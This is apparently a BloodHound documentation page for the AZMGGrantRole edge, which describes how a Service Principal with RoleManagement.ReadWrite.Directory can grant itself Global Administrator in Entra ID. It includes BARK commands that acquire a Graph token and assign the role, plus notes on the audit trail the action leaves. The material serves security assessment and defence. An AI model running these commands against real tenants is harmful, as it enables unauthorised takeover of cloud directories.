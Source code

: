---
title: AZMGGrantRole
description: "This edge is created during post-processing."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

 It is created against all Entra ID admin roles when a Service Principal has the following MS Graph app role assignment:

* RoleManagement.ReadWrite.Directory

This privilege allows the Service Principal to promote itself or any other principal to any Entra ID admin role, including Global Administrator.

## Abuse Info

To abuse this privilege, you can promote a principal you control to Global Administrator using BARK’s New-AzureADRoleAssignment. This function requires you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant Entra ID admin roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s New-AzureADRoleAssignment function to grant the Entra ID role to your target principal:

```bash
New-AzureADRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an Entra ID admin role to a principal using this privilege, the Azure Audit log will create an event called “Add member to role outside of PIM (permanent)”.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
